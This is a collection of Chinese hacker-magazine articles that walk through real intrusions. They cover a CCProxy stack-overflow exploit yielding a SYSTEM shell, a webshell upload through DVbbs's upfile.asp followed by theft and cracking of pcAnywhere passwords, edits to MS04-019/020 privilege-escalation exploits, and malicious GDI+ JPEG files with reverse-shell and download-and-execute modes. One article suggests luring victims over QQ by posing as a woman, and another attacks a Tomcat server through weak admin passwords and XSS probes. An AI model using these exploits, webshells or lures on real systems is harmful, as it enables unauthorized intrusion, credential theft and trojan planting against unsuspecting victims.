在调用 `_sprintf` 函数，按照“[日期] 内容”的格式存入 0x1820 大小的局部字符串缓冲区中时，由于没有限制长度，所以导致了缓冲区溢出。再仔细查看发现 `_sprintf` 函数是在 CCProxy 自己的代码段里面实现的，而没有调用 `msvcrt.dll` 导出的 sprintf 函数。

说句题外话，现在有些防溢出软件产品是利用拦截系统的字符串拷贝函数然后回溯堆栈的方法，并宣称从根本上解决了系统缓冲区溢出的问题。这很大程度上并不能覆盖软件自身代码实现导致的溢出场景（如本例 CCProxy）。

在 0040A410 函数返回的时候，就会返回到被覆盖的地址上去。代码如下：

```text
text:0040A700 add esp, 280Ch
text:0040A706 retn
```

到这里我们已经可以看出，0040A410 这个函数其实是一个记录 CCProxy 日志的函数，它按照“[日期] 内容”的格式来记录日志，但是在构造日志字符串的时候没有限制长度，所以导致了缓冲区溢出。至此我们已经找到了导致溢出的位置，接下来就要看看如何利用这个漏洞了。

### 漏洞利用

要利用漏洞，就要找到覆盖返回地址的字符串偏移。我们可以通过发送 AAAABBBBCCCCDDDD…… 这样的组合字符串看到底是哪里覆盖了返回地址。经过一番分析，得知在 4056 的偏移处恰好覆盖了函数返回地址，所以我们这样来设计溢出字符串：

```text
GET /AAAA....[shellcode][jmp esp][jmp back] HTTP/1.0
```

其中“AAAA……”这样的字符串是为了在执行 ShellCode 之前腾出足够的空间。字母 A 对应的 CPU 指令是 INC ECX，相当于可显示的 NOP。ShellCode 为开端口代码。Jmp esp 是包含 jmp esp 指令的地址，作为覆盖返回地址；函数返回后会跳到该地址执行 jmp esp，再跳到后续的 jmp back，最终落到前面的“AAAA……”区域并滑入 shellcode。

```text
mov ecx,25414141h
shr ecx,14h
sub esp,ecx
jmp esp
```

这样把 ESP 减去 0x254 就可以跳过前面的返回地址和 ShellCode，恰好跳到 shellcode 前面的 NOP 指令区去执行。按此构造并编写程序后，成功触发溢出并打开 shellcode 指定端口，但在外网复现时又遇到不稳定问题。

经过分析发现，溢出是按“[日期] 内容”格式拷贝到字符串中导致的，其中“内容”部分格式类似：

```text
客户端IP地址[<2k8:unknown>空格]Web空格2HTTP请求
```

其中 unknown 和 Web 都是固定长度字符串，HTTP 请求是可控字符串；但客户端 IP 地址不可控且长度不固定，不同长度会导致不同溢出点，影响利用稳定性。可通过预估并补齐请求中的长度来让 jmp esp 地址始终覆盖在返回地址上。

#### 漏洞攻击（EXPLOIT ATTACK）

栏目编辑：脚本小子

不经过网关，那么客户端 IP 地址就是攻击者主机的 IP 地址。

- 如果攻击者和攻击目标在同一个网段（即中间不经过网关），那么客户端 IP 地址就是攻击者主机的 IP 地址。
- 如果攻击者和攻击目标不在同一个网段上（即中间经过网关），但是攻击者的主机有真实的 IP 地址，那么客户端 IP 地址也是攻击者主机的 IP 地址。
- 如果攻击者和攻击目标不在同一个网段上（即中间经过网关），而且攻击者的主机没有真实的 IP 地址，例如攻击者在内网，而攻击目标主机在外网，那么客户端 IP 地址就是攻击者网关的外部 IP 地址。

知道了这 3 种情况之后，我们就可以动手改进刚才的 Exploit 程序了。首先要取出本机的 IP 地址，可以通过调用 Socket 函数 Gethostname() 先取得本机名，然后通过调用 Gethostbyname() 来得到本机 IP 地址的十六进制数值，最后利用 Inet_ntoa() 把这个数值转换为字符串。这样就解决了前两种情况的客户端 IP 地址。对于第三种本机和目标主机不在同一网段的情况，程序实现自动取网关外部 IP 地址比较麻烦，干脆由用户自己输入。很多网站论坛甚至会直接显示你的 IP 地址，那就是你网关的 IP 地址。

> **脚本小子：** 利用网关实现溢出攻击还是第一次看到具体的例子，它们的 TCP 握手是如何建立的？数据传输是怎么进行的？有兴趣的朋友可以考虑一下，尝试利用这个过程做点事情，相信你会有更多发现。

#### 漏洞攻击程序的使用方法

我用前面提到的方法写了一个 Exploit 程序，按照 `ccpx <目标IP> [端口]` 这样的格式来使用。其中目标 IP 就是你要攻击的安装了 CCProxy 的机器的 IP 地址，端口是目标 IP 上的 CCProxy 的 HTTP 代理端口，这个端口默认是 808，但是可能会更改。

然后程序会提示你“本主机 IP 是否与目标主机 IP 在同一个网段？”，因为要采取两种不同的溢出字符串。如果你的机器和目标主机在同一个网段上，就选 Y；如果不在同一网段就选 N。若选择 N，程序还会询问“本主机有没有真实外网 IP 地址？”。如果有就选 Y，没有则选 N。若再次选 N，程序会要求输入本主机所属网关的外部 IP 地址。

输入之后会自动发送溢出串，并自动连接 ShellCode 所开启的 24876 端口；如果成功，会出现系统权限的 CMD.EXE 命令行。

如果你的机器和目标主机在同一个网段上面，在第一步选 Y 即可攻击成功。如果虽不在同一网段但有真实 IP 地址，在第二步选 Y。

3 种不同情况的具体攻击过程如下：

- 你的机器和目标主机在同一个网段上

```text
D:\Soft\ccx\ccpx\Debug>ccpx 192.168.0.103
本主机IP是否与目标主机IP在同一个网段? [y/n]y
[+] connecting to 192.168.0.103:808
[+] send magic buffer...
[+] connecting to CMD shell port...
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\Documents and Settings\Administrator>exit
exit
[+] Connection closed.
```

- 你的机器虽然和目标主机不在同一个网段上面，但是有真实 IP 地址

```text
D:\Soft\ccx\ccpx\Debug>ccpx 202.xxx.xxx.xxx
本主机IP是否与目标主机IP在同一个网段? [y/n]n
本主机有没有真实外网IP地址? [y/n]y
[+] connecting to 202.xxx.xxx.xxx:808
[+] send magic buffer...
[+] connecting to CMD shell port...
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\Documents and Settings\Administrator>exit
exit
[+] Connection closed.
```

- 你的机器在内网，而攻击目标主机在外网

```text
D:\Soft\ccx\ccpx\Debug>ccpx 210.xxx.xxx.xxx
本主机IP是否与目标主机IP在同一个网段? [y/n]n
本主机有没有真实外网IP地址? [y/n]n
请输入本主机所属网关的外部IP地址: 202.xx.xx.xx

[+] connecting to 210.xxx.xxx.xxx:808
[+] send magic buffer...
[+] connecting to CMD shell port...
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\Documents and Settings\Administrator>exit
exit
[+] Connection closed.
```

这个程序里面的 jmp esp 地址是中文版 Windows 2000 中的地址，在其他版本的操作系统中可能会有所不同，需要读者自己修改。

> **脚本小子：** 由于这个 ShellCode 采用了直接开端口的方法，所以如果读者朋友的攻击目标上有防火墙，可能会导致攻击不成功。这种情况你需要更改 Exploit 程序中的 ShellCode，把它替换成反向连接的 ShellCode 并重新编译运行。

前面提到的这种根据不同网络情况来填充不同个数的 A，从而把 `jmp esp` 地址推到函数返回地址的方法并不是最好的方法。我觉得可能还有更好的方法，也许利用 `sprintf` 函数的一些内部特性就可以不用这样而写出通用的利用程序了，但是我没时间去研究这个了。如果读者有兴趣的话可以自己研究一下，如果研究出来，这也算是一项很实用的通用 Exploit 技术。

后来研究发现，CCProxy 不仅仅 HTTP 代理存在溢出问题，Telnet 代理等一些其他调用日志函数的端口也存在同样的问题，攻击方法类似，这里就不再详细分析了。另外，CCProxy 5.x 以及以前的版本虽然也存在此漏洞，但是构造字符串的方法略有不同，因此这个 Exploit 程序无法成功攻击 CCProxy 5.x 以及以前的版本，只能攻击 CCProxy 6.0，读者可以自己研究一下老版本的 CCProxy，并写出 Exploit 程序。

### 结束语

这个漏洞虽然不是 Windows 操作系统本身的漏洞，但是 CCProxy 在国内还算一个比较常用的软件，因此还是有一些利用价值的。不信你可以用 SuperScan 之类的端口扫描器扫描国内网段的 TCP 8080 端口，很多时候都能找到安装了 CCProxy 的机器。

其实写这篇文章的目的并不是教大家去利用这个漏洞黑机器，而是告诉大家一个软件漏洞从发现到跟踪调试到最后写 Exploit 程序的过程是怎样的，也许你也能用这种方法找到一些其他的漏洞。详细代码请查看光盘“源代码”栏目，按照文章名查找即可。

| 适合读者 | 入侵爱好者 |
|---|---|
| 前置知识 | Whois 查询 |
| 难度等级 | 低 |


## 入侵虚拟主机

文/图 heiBOY·侯成岗

> 前段时间动网的 UpFile.asp 文件上传漏洞闹得沸沸扬扬，很多朋友可能利用这个漏洞得到不少 WebShell。我也利用它搞到了很多 WebShell，可是由于事情做得太多，致使没有对已经放置了 WebShell 的虚拟主机进一步深入。现在有空，先给大家讲讲如何对放置了 WebShell 的主机继续深入。  
>
> 动网的 UpFile.asp 文件上传漏洞可以上传任何文件至服务器。只要是 ASP 木马（如海阳顶端网 ASP 木马、冰河木马、微型 ASP 木马等），就可以利用上传漏洞上传这些小巧而功能强大的 ASP 木马来入侵服务器。

当前最热门的动网论坛，嘿嘿！如果存在动网论坛是 7.0 SP2 以下的版本，那么就可以上传 ASP 木马，然后……越想越带劲，抓紧时间干。

> 脚本小子 2004 年第 9 期《黑客防线》曾出现以虚拟主机为内容的文章，实际中数据表删除是虚拟主机的特征，先利用上传漏洞入侵同一服务器上的某些站点，然后通过可以由目标“变桥”的入侵思路。

我的这些肉鸡列表中，就数 `www.***.com` 网站最大、浏览量最高，“要搞就搞大的”。可惜这个网站的 WebShell 早已经被发现并删除了，来看看有没有别的方法可以进去。

在网站上转了几圈，发现该网站的动网论坛已经由低版本升级到了最新的 7.0 SP2，彻底杜绝了上传漏洞，而且这个网站的整站程序是由后台动态页面产生前台静态 HTML 页面，根本没有 SQL 注射的机会，转来转去还是一无所获！拿起扫描器，对这台主机进行了一番扫描，只发现了几个常见端口，几乎没有利用的可能。

既然正面来不行，那就拐弯搞一次。据我估计，这个网站所在的主机一定是台虚拟主机，提供 Web 空间出售，其中肯定还有别的网站，而这些网站十有八九存在漏洞。

### 步骤1：探测虚拟主机中的其他网站

要探测虚拟主机中的其他网站，在有些朋友看来好像有点不可能，其实只要借助网站 `http://whois.webhosting.info` 就可以了！它是一家提供高级 WHOIS 服务的网站，可以对域名、IP 等进行 WHOIS 查询，从而发现其中的大量信息。

> WHOIS 服务是查询目标 IP 上有多少个域名指向，并且能查出这些域名的详细注册信息。这里给大家推荐一款工具，提供网络信息综合查询功能。

（栏目编辑）脚本小子 > scriptsboy@hacker.com.cn

在 “Enter a domain name or an IP Address in the search box below:” 中填写地址 `http://www.***.com` 再查询，可以看到查到了这个主机上存在 75 个域名开放的情况（如图1所示）。


图1

打开这 75 个域名进行浏览，果然发现其中一个网站 `www.yyy.com` 存在一个低版本的动网论坛，这下好办了，开始上传 ASP 木马！

### 步骤2：上传 ASP 木马

动网文件上传漏洞的相关工具非常多，这里使用 DVbbs Exploit。在 URL 中填写上传地址 `www.yyy.com/bbs/upfile.asp`，上传路径填写 `data`，文件名填写 `1.asp`，并在木马内容中写入脚本（如图2所示）。

```asp
<SCRIPT RUNAT=SERVER LANGUAGE=JAVASCRIPT>
eval(Request.form('heidan')+'')
</SCRIPT>
```


图2

上传成功后，得到的木马地址是：`www.yyy.com/bbs/data/1.asp`。

### 步骤3：系统探测

通过网页后门进行探测，发现目标主机存在多个分区，部分磁盘因 NTFS 权限限制无法浏览；但系统盘权限较弱，可继续尝试提权与进一步利用。

作者配置了灰鸽子服务端 `server.exe` 并尝试通过网页后门上传与运行，填写下载 URL 和路径后多次执行失败；更换后门程序同样失败，推测主机安装了较强安全软件。

经环境探测在 F 盘发现 `KV2003` 相关信息，同时发现 `f:\Program Files\Symantec\pcAnywhere` 路径，判断存在 pcAnywhere 远程管理软件，可尝试获取其密码文件并破解。


图3

### 步骤4：下载密码文件并破解

pcAnywhere 的密码文件通常以 `.cif` 结尾，常见路径在 `\Program Files\Symantec\pcAnywhere` 或 `\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere`。通过网页后门浏览目录并下载该密码文件（如图4所示），随后使用破解工具（如 PcAnywhereCrack、PcanywherePWD）进行处理。

> PcAnyWhere 是目前广泛流行的远程连接软件，安全性高、操作简易且可自定义登录参数规则。但它的账户信息是存储在 `clt` 文件或 `chf` 文件中的，拿到文件就能破解它的密码——不过从 11.0 版以后的 PcAnyWhere 已经解决了这个问题，使用现有的密码破解工具不能再读出密码。

### 步骤5：连接主机

在网上下载了 Pcanywhere，安装完毕，添加被控主机。在工具栏中选择“主控端”，再选择其中的“添加主控端”，打开设置面板，在“连接信息”标签中选择“TCP/IP”，在“设置”标签下填写目标主机 IP 地址。设置完毕，双击添加成功的控制端进行连接。连接上后，提示输入密码和用户，填写已经破解到的密码和用户名，顺利进入主机。

至此，一次拐弯入侵虚拟主机的过程结束。这次过程主要是利用了 `http://whois.webhosting.info` 对主机的域名探测，然后使用了 Pcanywhere 的破解程序，最后获得权限。关键是 WHOIS 查询发挥出了大作用，管理员在防入侵的过程中也要考虑它哦！

PcanywherePWD，图形化界面，很容易上手。打开 PcanywherePWD，选择下载到的密码文件，点“解密”，即可得到 Pcanywhere 的用户名和密码，如图5所示。


## 修正 Exploit

体验本地权限提升的乐趣

文/图 光仔

| 项目 | 内容 |
|---|---|
| 适合读者 | 入侵爱好者 |
| 前置知识 | C 语言基本语法 |
| 难度等级 | 低，★ |

漏洞就像 9 月的雨一样，经历了一个月狂欢冒出的好几个，各大安全网站都不断在头条中报道最新的漏洞消息，热度并不比奥运低。但这些漏洞中，真正能为菜鸟们服务的却是少之又少，真希望自己早日成为一名大鸟。可喜的是在这些漏洞中，MS04-019 和 MS04-020 这 2 个本地权限溢出漏洞能够方便地被我们利用。

> ### 何谓缓冲区溢出？
> 缓冲区溢出（Buffer Overflow）是计算机安全领域关注最多、据报道有 80% 以上的安全漏洞都与缓冲区溢出有关。就 C/C++ 语言对象而言，问题根源在于没有边界检查。缓冲区溢出大致可分两类：堆溢出（Heap Overflow）和栈溢出（Stack Overflow）。MS04-020 漏洞就是堆溢出。

允许执行代码，漏洞全名是 Microsoft Utility Manager 本地权限提升漏洞，它对现在的 Windows 2000 系统都有效，除非打上了最新的补丁。成功利用此漏洞的攻击者可以完全控制受影响的系统，其中包括安装程序、查看、更改或删除数据，或者创建拥有完全权限的新账户等。

这个漏洞只能用于本地权限提升，不能用于远程权限提升，真可惜！不过 Microsoft Utility Manager，也就是 Windows 2000 的工具管理器是默认安装的，所以影响范围很大！虽然不能用来远程入侵别人的电脑，但是当你忘了自己的管理员密码时，它就能派上用场了！

因为是菜鸟的缘故，所用的 Exploit 是大鸟写好的，可惜的是 Exploit 并不支持中文（如图1所示），但是修改起来并不难。

### MS04-019

下面我们先看看 MS04-019 漏洞和 MS04-020 漏洞的庐山真面目吧！MS04-019 漏洞是工具管理器中的漏洞可能……


发现，添加中文并不难。

```text
(c) Utility Manager exploit ...
[1] Gathering system language information
[*] OK language: Chinese
[*] trying to execute program ...
```

图1

下面我们先来享受一下改造天兵神器的乐趣，需要修改的代码如下：

```c
langid = {
  {0x0c, "Gestionnaire d'utilitaires", "aide de Windows", "Ouvrir"}, /* French */
  {0x09, "Utility manager", "Windows Help", "Open"}, /* English */
  /* ... Chinese 项目说明 ... */
};

void print_lang(int id) {
  char *lang_list[] = {"Neutral", "Arabic", "Bulgarian", "Catalan", "Chinese", ...};
}
```

代码修改之后就是：

```c
langid = {
  {0x0c, "Gestionnaire d'utilitaires", "aide de Windows", "Ouvrir"}, /* French */
  {0x09, "Utility manager", "Windows Help", "Open"}, /* English */
  {0x04, "辅助工具管理器", "Windows 帮助", "打开"}, /* Chinese */
};
```

最后一步就是把源代码编译（用 VC 编译的话很简单，只需要点几下就行了，这部分忽略）。经过改造的神器终于诞生了！还等什么？利用程序。

```text
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\WINNT\system32>whoami
X\Chobit
```

可以看到这个 Chobit 用户只有 User 权限，但是不久就可以得到 SYSTEM 权限的！好，我们来吧！按下 WIN+U 组合键启动“辅助工具管理器”，然后在 CMD 窗口中运行我们刚修改好的神兵，按提示选择“是”，并输入“CMD”，按“打开”，就可以运行另一个 CMD 了！看看这个 CMD 有什么特别？输入 whoami，返回信息：

```text
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\WINNT\system32>whoami
NT AUTHORITY\SYSTEM
```

看！这个 CMD 是拥有 SYSTEM 权限的，下一步想做什么就做什么吧！整个漏洞利用过程中只是按部就班地取得 SYSTEM 权限。不过在改造天兵神器这一幕中，我们充分发掘并发挥了 Exploit 编写者留下的智慧……

### MS04-020

这个漏洞是 Posix 中允许执行代码，全名是 Windows POSIX 子系统权限提升漏洞，影响现在的所有 Windows NT 和 Windows 2000 系统。成功利用此漏洞的攻击者可以完全控制受影响的系统……

> **POSIX 系统是什么？漏洞是如何产生的？**  
> Microsoft 的 POSIX 系统由一个 Psxss 的进程负责处理，Posix.exe 运行起来的程序会通过 LPC 和 Psxss 通讯。Psxss 进程的权限是 SYSTEM……如果传递给 Psxss 的数据构造不当会导致堆栈溢出，从而可能得到 SYSTEM 权限。

跟 MS04-019 漏洞一样，MS04-020 漏洞不能用于远程入侵，但是我们不会放弃任何一个能够拿到 SYSTEM 权限的机会……现在我以一个普通用户登录计算机并打开一个 CMD 窗口：

```text
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\WINNT\system32>whoami
X\Chobit
```

然后输入正确的溢出程序路径，使用简单参数就能溢出了：

```text
C:\>cd tools
C:\tools\exploit.exe
Microsoft Windows POSIX Subsystem Local Privilege Escalation Exploit
By bkbll ...

pax: illegal option --h
Usage: pax ...
```


系统权限出来了，这个漏洞利用够方便吧？！但是光仔在另一台 Windows 2000 中用同样的方法去取 SYSTEM 权限，却没有成功。从错误提示可以看出 `0x796e9b53` 指令引用的内存不能为 `written`。问题集中在 Exploit 中定义的返回地址是否正确。

文中说明：`#define RETADDR 0x796e9b53 //advapi32.dll jmp esp` 这句定义了溢出中最关键的返回地址。如果返回地址不正确，溢出不会成功。接下来应先找出正确返回地址，再重新编译溢出程序。

作者建议使用 `jmpesp.exe`（SUNX 编写）查找 `jmp esp` 指令地址，示例命令：`jmpesp 1 advapi32.dll`。


从输出结果中得到可用返回地址，例如：`0x796e7993 [JMP ESP]`。

```text
0x796e7993    [JMP ESP]
0x796ec663    [JMP ESP]
0x796ec68b    [JMP ESP]
```

右栏说明：将 Exploit 中的返回地址由 `0x796e9b53` 修改为正确地址（如 `0x796e7993`）后重新编译，再以普通权限运行即可成功获得 SYSTEM 权限。

并指出该溢出程序在进程行为上可能只便于触发一次：相关进程与 LPC Port 等待机制导致重复利用受限，通常需要重启后再尝试。

作者总结了实战体会：相比获得 SYSTEM 权限本身，更重要的是在排错中定位问题与解决问题的过程。

## Windows 2000 再爆输入法漏洞

文章描述了在 Windows 2000 Server 打全补丁并升级常用输入法后，仍在特定场景（如锁定状态）发现输入法相关漏洞的经历，并讨论了不同版本（5.0/5.5/5.8）下的影响与复现情况。


后文给出风险提示与建议：安装或升级输入法后应在本地进行安全测试，优先选择相对安全版本，避免凭据在本地被攻击获取。

## 在 Windows GDI+ JPG 中攻击

| 适合读者 | 入侵爱好者、网管、普通网民 |
|---|---|
| 前置知识 | 无 |
| 难度等级 | 中 |


Microsoft Windows GDI+ JPG 解析组件缓冲区溢出漏洞自公布以来，网上出现了数个 Exploit，但是都是针对英文版的 Windows XP，一直没有中文版的程序发布，最近终于辛辛苦苦找到了一个针对中文的漏洞利用程序。

程序就在当前目录下生成了 `Lotos.jpg` 文件，然后在本地用 NC 监听 6666 端口：

```bash
nc -vv -l -p 6666
```

把生成的 JPG 文件复制到虚拟机里面，进入虚拟机刚打开这个文件夹，Explorer 进程就被重新启动，回来看 NC，如图2所示。

> Microsoft Windows 图形设备接口（GDI+）是为用户提供在屏幕和打印机上显示信息的 API。GDI+（Gdiplus.dll）在处理畸形 JPEG 文件时存在缓冲区溢出，远程攻击者可以利用这个漏洞构建恶意 JPEG 文件，以用户进程权限在系统上执行任意指令……

这个漏洞非常严重，几乎影响到所有能够处理 JPEG 图像的软件；以至于许多杀毒软件厂商头痛不已，再加上漏洞的修补方式非常麻烦，所以这个漏洞对普通用户来讲几乎是致命的！


图2

怎么样？很简单的攻击方式吧？！

### HTTP 下载并执行

这个 EXP 还有一种最激动人心的功能：HTTP 下载指定应用程序并执行。基本命令是：

```bash
jpegexp -d:http://192.168.0.127/md5.exe download.jpg
```

`MD5.exe` 是桂林老兵的一个 MD5 计算工具，没有任何恶意，在这里拿它做例子演示一下。用上面的命令复制生成的 JPG 文件到虚拟机，桌面的图标闪过之后，就出现了程序的运行界面，如图3所示。

程序运行以后，界面如图1所示：


图1

和大多数 Exploit 一样，只有几个简单的选项，不过却支持几种漏洞利用方式：

- 反向连接
- 开端口侦听
- HTTP 下载指定应用程序并执行

怎么样？很强吧？！千万不要“流口水”哦。


图3

当然，你可以把这个程序换成自己精心修改过的小马，这样就会自动种植木马了，省了我们好多好多找肉鸡的功夫。

至于怎么才能让对方打开你精心制造的 JPG 文件？那就要靠你自己的功夫了。开动你的脑筋，我相信不难，你可以在 QQ 上假扮一个温柔可人的 MM，然后给他照片，只要他的机器没有打补丁，肯定会中招的……

### 反向连接

首先利用我们最常用的方式，也是大家最喜欢的反向连接。命令如下：

```bash
jpegexp -r:reverseIP:port reverse.jpg
```

在这里我的虚拟机的 IP 是 `192.168.0.117`，而我的机器的 IP 地址为 `192.168.0.127`，所以用以下命令生成伪造的 JPEG 文件：

```bash
jpegexp -r:192.168.0.127:6666 lotos.jpg
```

## Exploit 的缺陷美

接下来我们来看一下最传统的利用方式，就是开端口侦听了。侦听使用的是 `-b` 选项。

`jpegexp -b ... -p myjpg:198`

-b 是选择侦听方式，-p 和上面的一样，选择端口，这一次选择 7777 吧。至于该怎么样触发漏洞，我就不再啰嗦了，和上面的一样——让我失望的是这次没有成功。


经过反复测试，这个功能的确无法实现，都郁闷ing！这下可就苦了那些没有公网 IP 的弟兄们了。不过现在大家都应该有几只“鸡”在手了吧？现在普通用户的安全意识都提高了，防火墙的存在也使这种最普通的方式很难奏效，不过既然反向能够成功，正向也不难，大家可以发扬 DIY 精神，打造属于自己的 Exploit。

## 漏洞修补

知道了漏洞的危害性和攻击方法，我们当然还要知道如何进行修补和检测。Sans 为此专门推出了一个漏洞扫描工具（http://isc.sans.org/gdiscan.php），如图4所示。

使用方法很简单，选择你要扫描的盘符之后，点 Scan 就可以了。程序会自动扫描可能存在漏洞的 DLL 文件，如 Gdiplus.dll、Sxs.dll、Wsxs.dll、Mso.dll 等。上面的结果是在我没有打补丁的 Windows Server 2003 上的扫描结果。可以看到有一个 DLL 存在此漏洞，还有两个是可能存在此漏洞。


图4

大家可以在 http://www.nsfocus.net/index.php?act=sec_bug&do=view&bug_id=6902 看到漏洞所影响的软件以及操作系统。如果你的爱机上安装了存在漏洞的程序和操作系统，选择相应的链接打好补丁，反正 Windows 本来就是“补丁机”。如果你觉得这里不够详细，而且对自己的英文水平很有自信的话，可以到微软的官方网站（http://www.microsoft.com/technet/security/bulletin/MS04-028.mspx）查看漏洞的相关信息。别忘了打完补丁之后再用 GDI Scan 扫描一下，确认没有漏洞。

| 项目 | 内容 |
|---|---|
| 适合读者 | 入侵爱好者 |
| 前置知识 | Tomcat 基本配置、JSP 阅读、编写能力 |
| 难度等级 | 高 |

## 入侵Tomcat服务器

文／图 彭文波

> 到网上随便逛逛就会发现用 JSP 制作的电子商务网站多如牛毛，从 JSP 自身发展局面来看，适合于各种平台而且免费的 Tomcat 逐渐成为 Web 服务器的一种选择……

> Tomcat 是 Sun 的 JSWDK 中 Servlet 的运行环境（Servlet 容器）……也就是说，配置正确时，Apache 为 HTML 页面服务，而 Tomcat 实际上运行 JSP 页面和 Servlet。

先看看 JSP 的安全机制。JSP 和 PHP、ASP 等语言的工作机制不一样，虽然它也是一种 Web 编程语言，但首次调用 JSP 文件其实是执行一个编译为 Servlet 的过程……如果能够让 JSP 在编译前被浏览器当作一个文本或其他文件发送给客户端，或在 JSP 装载时不去执行编译好的 Servlet，而直接读取 JSP 的内容并发送给客户端，会出现什么问题呢？

对于 Tomcat 这样公开源代码的程序，若有更多的人使用并研究其代码，则可以找到并修补愈多的安全漏洞。但是，对于从来不修补漏洞的人们来说，我就可以利用这些漏洞，做我喜欢做的事情了。

## 漏洞攻击  **EXPLOIT ATTACK**

栏目编辑 / 脚本小子 / scriptsboy@hacker.com.cn

行了测试，其中两台为 Linux，一台为 Windows 系统，在路由器后面还有一台 Cisco PIX 525 对 3 台主机进行保护，只允许外部用户连接不同主机的部分端口……先找个扫描软件来看看主机的安全情况。我找来了 X-Scan，在外部对这几台主机进行了端口扫描之后，生成了一份关于端口的报表，发现其中有一个 Tomcat 服务器，解释的自然就是 JSP 文件了。典型部分摘录如图1所示。

| 主机地址 | 端口/服务 | 服务漏洞 |
|---|---|---|
| 202.103.*.168 | www (80/tcp) | 发现安全警告 |
| 202.103.*.168 | www (8080/tcp) | 发现安全提示 |
| 202.103.*.168 | sunrpc (111/tcp) | 发现安全提示 |
| 202.103.*.168 | unknown (22/tcp) | 发现安全提示 |
| 202.103.*.168 | pop3 (110/tcp) | 发现安全提示 |
| 202.103.*.168 | smtp (25/tcp) | 发现安全提示 |
| 202.103.*.168 | domain (53/tcp) | 发现安全提示 |
| 202.103.*.168 | portmapper (111/tcp) | 发现安全提示 |

*图1*

尝试一下通过 Web 服务进行间接攻击。首先检查 TCP/80 端口的服务，发现新闻搜索的功能是由端口 8080 提供的，输入 http://202.103.*.168:8080/ 之后，得到了一个系统管理登录页面。简单测试后发现认证看似成功但不能进入下一页面……随后进行了 JSP 大小写测试，分析 Tomcat 对 JSP 后缀处理方式，并继续寻找可下载或可利用的路径。

找了一个朋友的 JSP 空间，研究后发现大部分 JSP 应用程序在当前目录下都会有一个 Web-inf 目录，这个目录通常存放的是 JavaBean 编译后的 Class 文件。如果权限设置不当，Class 文件会暴露；通过反编译可能获得源码中的重要信息（如数据库连接信息等）。

Tomcat 版本的缺省 /admin 目录很容易访问。输入 http://202.103.*.168/admin/ 后，出现“Tomcat Web Server Administration Tool”页面。默认情况下 User Name 常为 admin，Password 可能为空；尝试若干弱口令后可进入管理界面（见图2）。

默认情况下，Tomcat 打开了目录浏览功能。在多个 Resin 或 Tomcat 站点测试中，都能碰到管理员忽视该问题。根据扫描报告中的“安全漏洞及解决方案”栏目，继续定位到可能存在 CGI 漏洞的目录。


在地址栏输入其中一个疑似目录，结果如图3所示。

> 一般可以这么解释：当请求的资源直接映射到服务器上的某个目录时，若目录中缺少默认的 index.jsp 等文件，Tomcat 不返回 404，而是返回 HTML 格式的目录列表。


一些典型的 JSP/JS 文件都被列出来了。通过下载链接可将目录下文件批量下载到本地，其中较有价值的是一个名为 Dbconn.js 的文件，里面可能包含数据库连接账号、密码与地址等信息。进一步测试发现 Tomcat 管理员密码较弱（如 WEB123456），登录后可进入管理页面进行 Context 管理。

重新登录 Tomcat 管理界面，点击“Context (Admin)”可看到 Web 目录下可管理的文件和目录名。可以对 Tomcat 的 Context 进行查看、增加、删除，例如新增一个 Context 如“/images”等。

这是为了避免管理员看出破绽，将它的文档根目录设置为“/”，这样当我访问 `http://202.103.*.168/admin/` 时看到的就是系统根目录的列表了，如图4所示。既然是 JSP 文件，我就要考虑尝试一下 XSS 注入、HTML 注入、SQL 注入以及命令注入的攻击了。


图4

都在防范 XSS 攻击上存在缺陷，当然，实际的攻击可能并不像前面的示例那么简单。但是，只要在 Web 应用程序中有将未过滤的输入回送给用户的缺陷，就可以设计出 XSS 攻击的方式。含有容易受到 XSS 攻击的 Web 应用程序可以用各种程序语言编写（包括 Java），并在任何操作系统上执行。这是一种一般且普遍的网页浏览器脚本问题，而非服务器端的问题，主要来自并未确认及过滤恶意的用户输入。能否在这方面做点文章呢？

回到 Tomcat 的管理界面，无意中发现了一个上传文件的组件，而且这个站点下有个论坛，真乃天助我也！写一个 JSP 文件弄上去看看，也正好验证一下 JSP 用户过滤方面的技术。于是，我编写了一个 JSP 网页，并将其当做一般的 Web 应用程序。这个 JSP 网页会接受用户的输入并显示少量的调试信息。通过上传组件，我将自己精心准备的 `Input.jsp` 文件上传到对方的 Web 目录里，代码如下：

```html
<html>
<%@page contentType="text/html;charset=gb2312"%>
<head><title>测试用户信息</title></head>
<body>
<!-- 使用 GET 方法之搜索窗体的开头 -->
<table border="1">
<tr><td>
输入查询(method='get')
<form method="get">
<input type="text" name="queryString1" value="<%=request.getParameter("queryString1")%>">
<input type="hidden" name="hidden1" value="HiddenValue1">
<input type="submit" name="submit1" value="搜索">
</form>
</td>
<td>
queryString1 = <%=request.getParameter("queryString1")%><br>
...
```

```jsp
hidden1 = <%= request.getParameter("hidden1") %><br>
submit1 = <%= request.getParameter("submit1") %><br>
...
// 确认用户名的长度是否合法
else if ((username.length() < 3) || (username.length() > 9)) {
  out.write("<font color='red'><b><i>");
  out.write("Bad username length, Must be 3-9 chars.");
  out.write("</i></b></font><br>");
}
// 否则，它就是合法的用户名
else {
  out.write("<center><h1>");
  out.write("Currently logged in as <b>" + username + "</b>\n");
  out.write("</h1></center>\n");
}
</body>
</html>
```

打开 `input.jsp` 这个页面，显示如图5所示。


图5

网页上包括两个查询窗体和一个用户名输入窗体。前面的两个查询窗体基本是一样的，只不过一个使用 HTTP GET，另一个使用 HTTP POST，此外其参数名称也不同，所以可以一次测试两个窗体，其参数值不会彼此干扰。网页对查询窗体不会做任何输入验证，但是对用户名窗体则会。网页上的所有窗体都会自动填入上次传送来的值（如果没有任何上次的值，则会填入 Null）。将数据填入窗体，来测试一下网页漏洞，例如如下：

- 将 `<script language="javascript">alert(document.cookie)</script>` 填入搜索字段，以使用 XSS 来显示进程的 Cookie。
- 将 `<iframe src=http://jakarta.apache.org></iframe>` 填入搜索字段来示范 HTML 注入攻击。

